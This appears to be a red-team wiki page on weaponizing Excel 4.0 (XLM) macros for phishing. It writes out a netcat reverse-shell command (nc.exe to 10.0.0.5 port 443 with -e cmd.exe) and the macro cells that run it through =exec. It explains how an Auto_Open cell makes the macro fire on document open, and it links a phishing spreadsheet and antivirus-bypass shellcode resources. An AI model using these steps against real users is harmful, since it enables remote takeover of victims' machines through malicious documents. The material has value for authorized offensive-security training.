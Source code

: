 # ⭕ XLM Macro 4.0

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://fortynorthsecurity.com/blog/excelntdonut" %}

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":

![](<../../.gitbook/assets/image (38) (1).png>)

shell.cmd :&#x20;

```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```

We can then execute command by typing into the cells:

```vba
=exec("c:\shell.cmd")
=halt()
```

Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:

![](<../../.gitbook/assets/image (20) (1).png>)

{% file src="../../.gitbook/assets/Excel 4.0 Macro Functions Reference (1).pdf" %}

{% file src="../../.gitbook/assets/phishing-xlm.xlsm" %}

Opening the document and enabling Macros pops a reverse shell:

![](<../../.gitbook/assets/image (15).png>)

Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

{% embed url="https://blog.sevagas.com/Launch-shellcodes-and-bypass-Antivirus-using-MacroPack-Pro-VBA-payloads" %}

{% embed url="https://www.scriptjunkie.us/2012/01/direct-shellcode-execution-in-ms-office-macros" %}

{% embed url="https://malsechunter.wordpress.com/2020/12/13/malicious-document-shellcode-injection" %}

{% embed url="https://securityonline.info/badassmacros-c-based-automated-malicous-macro-generator" %}
